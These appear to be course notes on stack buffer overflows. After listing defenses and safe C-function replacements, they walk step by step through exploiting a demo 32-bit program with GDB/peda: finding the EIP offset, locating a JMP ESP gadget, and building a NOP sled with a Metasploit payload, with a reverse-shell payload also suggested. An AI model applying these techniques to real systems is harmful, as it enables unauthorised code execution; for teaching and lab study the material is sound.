# Day 5 - Buffer Overflow

[TOC]

## Definition

Buffer Overflows are a software vulnerability that occurs when a program writes more data to a fixed memory buffer than it is allocated to hold.

## Buffer Overflow Defenses

- Non executable (NX) stack
- Address Space Layout Randomization (ASLR)
- Data Execution Prevention (DEP)
- Stack Canaries
- Position Independent Executable (PIE)

## GDB

Installation 

```bash
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

### Common Commands

```bash
disass <FUNCTION>   #   Disassemble portion of the program
info <...>  #   Supply info for specific stack areas
x/256c $<REGISTER>  #   Read characters from specific register
break <address>  #   Establish a break point
```

### Determine Vulnerable Code

```c

gets() -> fgets()
strcpy() -> strncpy()
strcat() -> strncat()
sprintf() -> snprintf()
```

## Demo - Buffer Overflow

We are using the func program for the demo



Lets attempt to overflow:



Lets try to understand what happened here with a debugger. gdb

```bash
gdb ./func
```



Attempt to breakdown the main program. main is used as all programs have a main function 

```bash
pdisass main
disass main # Also works
# pdisass is the command to disassemble using peda
```



```bash
file func 
# Will show us func is a 32-bit binary 
```



We found the getuserinput function from the main function. We can dive further into this with pdisass

```bash
pdisass getuserinput
disass getuserinput # Also works
```



The code lights up red, which is peda telling us this function is vulnerable. Green means its not vulnerable. 

The 'r' command will run the command in gdb/peda

```
r
```





Now we can utilize our script to attempt to understand where we get a buffer overflow:

```bash
buffer.py (in scripts) or exp.py
```

We can plug in a string we get from https://wiremask.eu/tools/buffer-overflow-pattern-generator/ to test the amount of data we need for the overflow. 



Final look at the edited script. This script we run to get our buffer offset. 



To run in gdb/peda

```bash
r <<< $(python exp.py)
```



We need the EIP value. This is the value where the overflow occurs. 



Plug it in to our nifty buffer overflow website  https://wiremask.eu/tools/buffer-overflow-pattern-generator/:



We need this offset in order to exploit the buffer overflow. 

Now we adjust our python script for the exact buffer offset, eip, and take the env information out of gdb. 

First, we take most of the environment information out of gdb. We want the memory space that we read through to be accurate for the environment. 

```bash
# in regular terminal
env - gdb func
show env
unset env COLUMNS
unset env LINES
```



Now, crash the program. 



Run the command to show the process map:

```
info proc map
```



Now we do this:

```bash
find /b [start address after heap], [end address at before the stack], 0xff, 0xe4 
find /b 0xf7de1000, 0xf7ffe000, 0xff, 0xe4 
# oxff and 0xe4 doesn't change
```





Then take the first three memory addresses and plug them into our script





Memory addresses are pasted in for reference. 

Adjust our eip, with the first memory addresses in reverse. If our payload fails, we move to the next address. 



Uncomment the nop line. Comment our previous print(buffer) and uncomment the line below, print(buffer + eip + nop + buf). 

Edited look:



Now, we start metasploit

```
msfconsole
```



Now we'll execute some commands to use a payload

```bash
use payload/linux/x86/exec
show options
```



```
set CMD whoami #Whatever command
show options
```



```bash
generate -b "\x00\x0d\x20\x0a" -f python 
# Builds the payload
```



Copy this into the exp.py (or whatever name) script. 



Payload built. Lets try it. 

```
./func <<< $(python exp.py)
```



Final look at script:


Use payload/linux/x86/shell_reverse_tcp for the reverse shell. If you want to do it this way.



If you get a weird error, like it's not taking input:


